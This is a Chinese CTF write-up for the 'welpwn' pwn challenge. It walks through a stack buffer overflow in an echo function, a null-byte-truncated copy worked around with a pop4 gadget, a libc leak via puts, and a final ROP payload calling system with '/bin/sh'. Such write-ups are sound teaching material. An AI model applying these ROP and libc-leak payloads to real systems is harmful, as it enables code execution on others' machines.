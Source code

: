 # welpwn

题目来源：https://adworld.xctf.org.cn/task/

这道题目其实也是一道泄露 libc 的缓冲区溢出题，但是很可惜我有一个点没有注意，结果导致卡了很长时间，下面分享一下这道题的做法，先看一下这道题的防护：

```
Arch:     amd64-64-little                                            
RELRO:    Partial RELRO                                                    
Stack:    No canary found                                                  
NX:       NX enabled                                          
PIE:      No PIE (0x400000)
```

没有 canary 没有 PIE，说明很有可能存在缓冲区溢出并可以构造 ROP 攻击，程序代码如下：

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-400h]

  write(1, "Welcome to RCTF\n", 0x10uLL);
  fflush(_bss_start);
  read(0, &buf, 0x400uLL);
  echo((__int64)&buf);
  return 0;
}

int __fastcall echo(__int64 a1)
{
  char s2[16]; // [rsp+10h] [rbp-10h]

  for ( i = 0; *(_BYTE *)(i + a1); ++i )
    s2[i] = *(_BYTE *)(i + a1);
  s2[i] = 0;
  if ( !strcmp("ROIS", s2) )
  {
    printf("RCTF{Welcome}", s2);
    puts(" is not flag");
  }
  return printf("%s", s2);
}
```

代码很简短，main 中并没有有关溢出的漏洞，而 echo 中对于字符串的复制没有考虑道字符串的边界，所以出现了溢出，而溢出的字符串和 main 中输入的有关。

那么这道题没有提供有关 system 的函数，也没有给出 libc，所以考虑泄露 libc 的地址。下面是一开始构造的字符串：

```
'a'*0x18 + p64(pop_rdi) + p64(read_got) + p64(puts_plt) + p64(main_addr)
```

但是试过了，不行。理论上这个字符串的功能上是没有什么问题的，但是这道题有一个小细节，就是在 echo 中复制字符串的时候，终止的条件是碰到 0x00 就停止，而假设复制的是地址字段，地址的高位必然存在 0x00，那么该字符串只能成功复制其中的 1 个地址字段，后面的地址就不会出现在栈中。

但是这道题的栈帧设计的很巧妙，main 函数中的 buf 部分的底部正好紧贴 echo 的返回地址，这个可以直接观察栈的分配情况。这样可以细致地发现，输入的字符串也同样出现在 main 中 buf 的底部，只要跳过 4 个 8 字节数据就可以访问到了，所以这里需要先 pop 四下，还好在 gadget 中正好有这样的指令：

```
0x000000000040089c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
```

这个 gadget 正好符合要求。所以构造如下字符串：

```
'a'*0x18 + p64(pop4) + p64(pop_rdi) + p64(read_got) + p64(puts_plt) + p64(main_addr)
```

这样能够顺利拿到 read 函数的真实地址，而只需要使用 LibcSearcher 构造目标字符串就可以了：

```
'a'*0x18 + p64(pop4) + p64(pop_rdi) + p64(sh_addr) + p64(system)
```

